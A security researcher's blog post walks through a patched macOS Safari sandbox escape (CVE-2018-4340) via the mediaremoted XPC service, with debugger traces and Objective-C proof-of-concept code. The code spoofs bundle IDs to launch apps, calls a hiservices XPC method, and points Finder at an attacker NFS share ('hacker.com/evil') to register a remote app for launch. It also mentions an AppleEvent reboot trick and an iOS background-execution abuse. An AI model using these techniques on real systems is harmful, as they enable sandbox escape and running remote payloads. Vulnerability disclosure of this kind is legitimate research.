


---
layout:	post
title:	"Revisiting An Old MediaRemote Bug (CVE-2018-4340)"
date:	   2020-05-27
image:   img/2020-05-27-revisiting-an-old-mediaremote/mediaremote.png
desc:    Useless bugs are just being given up too early.
---

This post is the first part of a series of Safari sandbox escapes I found on macOS. This bug was found on High Sierra (10.13.x) two years ago.

I wrote about this bug once. Thought it was useless, and Apple wouldn't care about it, so I published the details before the response. Then the security team asked me to take it down because they were still working on it.

I've also talked about it on TyphoonCon 2019. I did not release the slides because I had some 0days at the time that shared the similar pattern: triggering XSS in a privileged WebView via sandbox reachable IPCs. This PoC worked on all Mojave until Catalina unintentionally broke some part of it.

Now here's the slides. The git history is still there so it's been public for quite a while:

[Full Slides](https://github.com/ssd-secure-disclosure/typhooncon2019/blob/f253778bf80de7358545a547722483a677508eef/Zhi%20Zhou%20-%20I%20Want%20to%20Break%20Free%20%28TyphoonCon%29.pdf)

You may have the experience that, when you hit media key ▶️ on mac, the iTunes shows up. It is so annoying.



With a little reverse engineering, I found that process rcd is responsible for this hotkey:

```
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
frame #0: 0x00007fff6a932420 MediaRemote`MRMediaRemoteSendCommandToApp
MediaRemote`MRMediaRemoteSendCommandToApp:
-> 0x7fff6a932420 <+0>: push rbp
   0x7fff6a932421 <+1>: mov rbp, rsp
   0x7fff6a932424 <+4>: sub rsp, 0x70
   0x7fff6a932428 <+8>: mov rax, qword ptr [rbp + 0x10]
Target 0: (rcd) stopped.
(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
 * frame #0: 0x00007fff6a932420 MediaRemote`MRMediaRemoteSendCommandToApp
   frame #1: 0x000000010d73829a rcd`HandleMediaRemoteCommand + 260
   frame #2: 0x000000010d7387ff rcd`HandleHIDEvent + 736
```

It sents the following XPC message to mediaremoted, activating the registered media player (even if not previous running).

```
conn: <OS_xpc_connection: <connection: 0x7f90d0304830> { name = com.apple.mediaremoted.xpc.peer.0x7f90d0304830, listener = false, pid = 2682, euid = 501, egid = 20, asid = 100008 }>
msg: <OS_xpc_dictionary: <dictionary: 0x7f90ce4097a0> { count = 2, transaction: 1, voucher = 0x7f90ce705df0, contents =
"MRXPC_NOWPLAYING_PLAYER_PATH_DATA_KEY" => <data: 0x7f90ce409860>: { length = 4 bytes, contents = 0x12020800 }
"MRXPC_MESSAGE_ID_KEY" => <uint64: 0x7f90ce4640b0>: 61461
}>
id: f015
​
conn: <OS_xpc_connection: <connection: 0x7f90d0304830> { name = com.apple.mediaremoted.xpc.peer.0x7f90d0304830, listener = false, pid = 2682, euid = 501, egid = 20, asid = 100008 }>
msg: <OS_xpc_dictionary: <dictionary: 0x7f90d0107d80> { count = 5, transaction: 1, voucher = 0x7f90ce705df0, contents =
"MRXPC_NOWPLAYING_PLAYER_PATH_DATA_KEY" => <data: 0x7f90d003a610>: { length = 23 bytes, contents = 0x0a150801120b6363616e742e6c6f63616c18cc86bde204 }
"MRXPC_COMMAND_KEY" => <uint64: 0x7f90d0038610>: 2
"MRXPC_MESSAGE_ID_KEY" => <uint64: 0x7f90d0035cd0>: 15728641
"MRXPC_COMMAND_OPTIONS_KEY" => <data: 0x7f90d0037a30>: { length = 359 bytes, contents = 0x62706c6973743030d401020304050607085f10356b4d524d... }
"MRXPC_COMMAND_APP_OPTIONS_KEY" => <uint64: 0x7f90d0051ed0>: 1
}>
id: f00001
```

The *mediaremoted* is responsible for the global music player control.


The `MRXPC_MESSAGE_ID_KEY` of the message controls routing, deciding which `handleXPCMessage:fromClient:` method should be invoked.


Finally the message reaches here. It searches installed application that matches a certain bundle identifier and then launches it.

```
(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
 * frame #0: 0x00007fff3fbf9610 LaunchServices`LSOpenCFURLRef
   frame #1: 0x00007fff5a239a86 MediaServices`MSVLaunchApplication + 127
   frame #2: 0x000000010cac6bfa mediaremoted`MRDLaunchApplication + 234
   frame #3: 0x000000010ca2e22f mediaremoted`-[MRDRemoteControlServer _enqueueCommand:forApplication:withCompletion:] + 1199
   frame #4: 0x000000010ca2c2e0 mediaremoted`__66-[MRDRemoteControlServer _sendLocalCommand:withCompletionHandler:]_block_invoke + 2320
   frame #5: 0x000000010ca32586 mediaremoted`-[MRDRemoteControlServer _shouldIgnoreCommand:completion:] + 998
   frame #6: 0x000000010ca2b92b mediaremoted`-[MRDRemoteControlServer _sendLocalCommand:withCompletionHandler:] + 491
   frame #7: 0x000000010ca2a690 mediaremoted`-[MRDRemoteControlServer _handleSendCommandMessage:fromClient:] + 560
   frame #8: 0x000000010ca2a15f mediaremoted`-[MRDRemoteControlServer handleXPCMessage:fromClient:] + 159
   frame #9: 0x000000010ca9d422 mediaremoted`-[MRDMediaRemoteServer handleXPCMessage:fromClient:] + 514
   frame #10: 0x000000010cac2428 mediaremoted`-[MRDMediaRemoteClient _handleXPCMessage:] + 136
```

I had a deja vu about this service. This mach service is reachable in Safari sandbox.

```lisp
;; Various services required by AppKit and other frameworks
(allow mach-lookup
 (global-name "com.apple.mediaremoted.xpc")
```

What about crafting a message to launch arbitrary application?

There is an `MRXPC_NOWPLAYING_PLAYER_PATH_DATA_KEY` in the message, which is a serialized buffer of an `MRNowPlayingPlayerPathProtobuf` object.


This class has three important properties: origin, client, and player. The field client points to an `_MRNowPlayingClientProtobuf` class, who has a bundleIdentifier string. This parameter will be passed to `MSVLaunchApplication` and we can spoof it. To craft the desired objects, some private APIs of MediaRemote can help.

* `MRNowPlayingClientCreate` to create a client with arbitrary bundle id
* `MRMediaRemoteSendCommandToClient` to serialize and send the XPC message

Now let's pop a Calculator from Safari sandbox in only few lines of code!

```objc
extern id MRNowPlayingClientCreate(NSNumber*, NSString *);
extern id MRMediaRemoteSendCommandToClient(int, NSDictionary*, id, id, int, int, id);
id client = MRNowPlayingClientCreate(nil, @"com.apple.calculator");
NSDictionary *args = @{@"kMRMediaRemoteOptionDisableImplicitAppLaunchBehaviors" : @NO};
MRMediaRemoteSendCommandToClient(2, args, nil, client, 1, 0, ^void(unsigned int a1, CFArrayRef a2) {});
```



Another interesting fact about it is that MediaRemote has side effects on iOS background apps. Usually third party apps have limited background execution time:

[Extending Your App's Background Execution Time](https://developer.apple.com/documentation/uikit/app_and_environment/scenes/preparing_your_ui_to_run_in_the_background/extending_your_app_s_background_execution_time?language=objc)

If you periodically abuse this piece of code and spoof the bundle id to your own app, MediaRemote will grant you unlimited background time. This trick does not require any special entitlements, playing media quietly, or GPS. When you have more than one app you can even implement watchdogs for each other. Once activated, they become immortal unless you turn off the phone.

This bug has been completly patched after I gave the talk on TyphoonCon.

Yeah, at this point I can launch arbitrary installed applications, even Xcode. But it makes no sense at all if you can't execute a downloaded payload. Back then I couldn't find a way to register a custom app, but lately I learned something interesting that might bring it back to life.

Here is another useless sandbox voilation I reported to Apple. Apple did not publish any advisory about it. It's just another service that is reachable from Safari sandbox:

> /System/Library/Frameworks/ApplicationServices.framework/
> Versions/A/Frameworks/HIServices.framework/Versions/A/XPCServices/
> com.apple.hiservices-xpcservice.xpc/Contents/MacOS/com.apple.hiservices-xpcservice

It looks like a legacy component related to input methods. The message is simply a remote procedure call to the service:

```objc
xpc_object_t msg = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_string(msg, "HIS_XPC_SELECTOR", "HIS_XPC_RevealFileInFinder:");
xpc_object_t params = xpc_dictionary_create(NULL, NULL, 0);
xpc_object_t url = _CFXPCCreateXPCObjectFromCFObject(
CFURLCreateWithString(kCFAllocatorDefault, CFSTR("file:///"), NULL));
xpc_dictionary_set_value(params, "fileURL", url);
xpc_dictionary_set_value(msg, "HIS_XPC_PARAMETERS", params);
```

`HIS_XPC_SELECTOR` is the selector of the remote method (validated by a trusted list, of course). They are all implemented by `XPCRequestHandler`.

```
Function name	Segment	Start	Length	Locals	Arguments	R	F	L	M	S	B	T	=
-[XPCRequestHandler HIS_XPC_CFNotificationCenterPostNotification:]	__text	000000010000278B	00000164	00000038	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_CFPreferencesSetValue:]	__text	00000001000028EF	00000268	00000030	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_CFPreferencesCopyValue:]	__text	0000000100002B57	000003A0	00000068	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_CFPreferencesSynchronize:]	__text	0000000100002EF7	000000EE	00000028	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_SendAppleEventToSystemProcess:]	__text	00000001000030F8	0000012B	00000058	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_RevealFileInFinder:]	__text	0000000100003223	00000062	00000018	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_SetNetworkLocation:]	__text	0000000100003285	000000E1	00000128	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_CopyMacManagerPrefs:]	__text	0000000100003366	0000000C	00000008	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_CopyApplicationPolicyForURLs:]	__text	0000000100003372	0000061E	00000078	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_SetCapsLockModifierState:]	__text	0000000100003CC2	0000007E	00000048	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_GetCapsLockModifierState:]	__text	0000000100003E32	000000C3	00000068	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_GetCapsLockLanguageSwitch:]	__text	0000000100003FFF	000000CF	00000068	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_SetCapsLockDelayOverride:]	__text	000000010000411C	000000D0	00000078	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_SetCapsLockLEDInhibit:]	__text	0000000100004421	0000009D	00000058	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_SetCapsLockLED:]	__text	0000000100004525	0000011A	00000058	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_GetGlobeKeyAvailability:]	__text	000000010000468E	000000E7	00000068	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_GetMicKeyAvailability:]	__text	00000001000047C3	000000E7	00000068	00000000	R	.	.	.	.	B	T	.
-[XPCRequestHandler HIS_XPC_CopyCapsLockKeyLabel:]	__text	0000000100004B5B	000000C5	00000068	00000000	R	.	.	.	.	B	T	.
```

And you can find the corresponding client APIs in HIService.framework

```
 ➜ ~ nm /System/Library/Frameworks/ApplicationServices.framework/Versions/A/Frameworks/HIServices.framework/HIServices | grep _HIS_
00000000000424e9 t _HIS_XPCImp_CFPreferencesCopyValue
000000000004257e t _HIS_XPCImp_CopyMacManagerPrefs
000000000004280f t _HIS_XPCImp_RevealFileInFinder
0000000000005ac3 T _HIS_XPC_CFNotificationCenterPostNotification
000000000000901a T _HIS_XPC_CFPreferencesCopyValue
000000000005bf70 b _HIS_XPC_CFPreferencesCopyValue.onceToken
000000000005bf68 b _HIS_XPC_CFPreferencesCopyValue.sHasAccessToHLTB
0000000000047c27 T _HIS_XPC_CFPreferencesSetValue
0000000000047a41 T _HIS_XPC_CFPreferencesSynchronize
0000000000048c00 T _HIS_XPC_CopyMacManagerPrefs
0000000000048528 T _HIS_XPC_GetCapsLockModifierState
0000000000048af3 T _HIS_XPC_PostDeleteKeyEvent
00000000000480bb T _HIS_XPC_RevealFileInFinder
0000000000047e90 T _HIS_XPC_SendAppleEventToSystemProcess
0000000000048696 T _HIS_XPC_SetCapsLockDelayOverride
0000000000048948 T _HIS_XPC_SetCapsLockLED
00000000000487eb T _HIS_XPC_SetCapsLockLEDInhibit
00000000000483d3 T _HIS_XPC_SetCapsLockModifierState
000000000004822e T _HIS_XPC_SetNetworkLocation
```

In `SendAppleEventToSystemProcess` you can just reboot the system with an AppleEvent without any privilege, even inside the renderer sandbox.

```c
event = AECreateDesc('psn ', &dataPtr, 8LL, &result);
if ( !event )
{
   event = AECreateAppleEvent('aevt', theAEEventID, &result, -1, 0, &theAppleEvent);
   if ( !event )
   {
      if ( theAEEventID == 'rest' || theAEEventID == 'shut' || theAEEventID == 'rlgo' )
      {
         PSN.highLongOfPSN = 0;
         AEPutAttributePtr(&theAppleEvent, 'rsst', 'magn', &PSN, 4LL);
      }
      event = AESendMessage(&theAppleEvent, 0LL, 1, -1LL);
      if ( v11[0] && !event )
      {
         PSN = (ProcessSerialNumber)&_mh_execute_header;
         SetFrontProcess(&PSN);
      }
   }
}
```

`_HIS_XPC_CFPreferencesCopyValue` does not validate the path at all so you can read arbitrary plist file. This guided me to discover a real long standing CoreFoundation bug.

As for the `HIS_XPC_RevealFileInFinder` you can locate arbitrary file url in Finder app. I noticed that I can just specify a NFS share (`/net/hostname/blah`) like this:

```objc
xpc_object_t url = _CFXPCCreateXPCObjectFromCFObject(CFURLCreateWithString(kCFAllocatorDefault, CFSTR("file:///net/hacker.com/evil/share/Dash.app"), NULL));
```

There was a GateKeeper bypass at the time (<10.14.5) that remote contents from NFS share have no quarantine flag:

[MacOS X GateKeeper Bypass](https://www.fcvl.net/vulnerabilities/macosx-gatekeeper-bypass)

Here is the interesting part. When finder locates this remote resource, it automatically registers the app to the LaunchService.


Now let's go back to the MediaRemote framework. It can only launch known apps.

```
(lldb) dis -a 0x00007fff4d98fa48
MediaServices`MSVLaunchApplication:
0x7fff4d98f9ff <+0>: pushq %rbp
0x7fff4d98fa00 <+1>: movq %rsp, %rbp
0x7fff4d98fa03 <+4>: pushq %r15
0x7fff4d98fa05 <+6>: pushq %r14
0x7fff4d98fa07 <+8>: pushq %r13
0x7fff4d98fa09 <+10>: pushq %r12
0x7fff4d98fa0b <+12>: pushq %rbx
0x7fff4d98fa0c <+13>: subq $0x38, %rsp
0x7fff4d98fa10 <+17>: movq %rdx, %r15
0x7fff4d98fa13 <+20>: movq %rsi, %rbx
0x7fff4d98fa16 <+23>: movq 0x42adc793(%rip), %r12 ; (void *)0x00007fff5950cd50: objc_retain
0x7fff4d98fa1d <+30>: callq *%r12
0x7fff4d98fa20 <+33>: movq %rax, %r13
0x7fff4d98fa23 <+36>: movq %rbx, %rdi
0x7fff4d98fa26 <+39>: callq *%r12
0x7fff4d98fa29 <+42>: movq %rax, %r14
0x7fff4d98fa2c <+45>: movq %r15, %rdi
0x7fff4d98fa2f <+48>: callq *%r12
0x7fff4d98fa32 <+51>: movq %rax, %r15
0x7fff4d98fa35 <+54>: testq %r13, %r13
0x7fff4d98fa38 <+57>: je 0x7fff4d98fb4d ; <+334>
0x7fff4d98fa3e <+63>: xorl %esi, %esi
0x7fff4d98fa40 <+65>: movq %r13, %rdi
0x7fff4d98fa43 <+68>: callq 0x7fff4d99f056 ; symbol stub for: LSCopyApplicationURLsForBundleIdentifier
0x7fff4d98fa48 <+73>: movq %rax, %r12
0x7fff4d98fa4b <+76>: movq 0x42ae5776(%rip), %rsi ; "count"
0x7fff4d98fa52 <+83>: movq %r12, %rdi
0x7fff4d98fa55 <+86>: callq *0x42adc745(%rip) ; (void *)0x00007fff5950ce80: objc_msgSend
0x7fff4d98fa5b <+92>: testq %rax, %rax
0x7fff4d98fa5e <+95>: je 0x7fff4d98fb44 ; <+325>
0x7fff4d98fa64 <+101>: movq 0x42ae5b3d(%rip), %rsi ; "firstObject"
0x7fff4d98fa6b <+108>: movq %r12, %rdi
0x7fff4d98fa6e <+111>: callq *0x42adc72c(%rip) ; (void *)0x00007fff5950ce80: objc_msgSend
0x7fff4d98fa74 <+117>: xorl %esi, %esi
0x7fff4d98fa76 <+119>: movq %rax, %rdi
0x7fff4d98fa79 <+122>: callq 0x7fff4d99f05c ; symbol stub for: LSOpenCFURLRef
```

After mounting the NFS volume I can confirm that `LSCopyApplicationURLsForBundleIdentifier` does return the expected remote URL in my test case. It should be a full sandbox escape now if everything goes well. But it's very strange that `LSCopyApplicationURLsForBundleIdentifier` doesn't work when it's in mediaremoted.


I don't feel like digging deeper since it's an outdated bug.

In the incoming posts (hopefully) I am gonna reveal 3 more different macOS Safari sandbox escapes abusing inter process XSS. Yup. XSS. I meant it. Stay tuned.
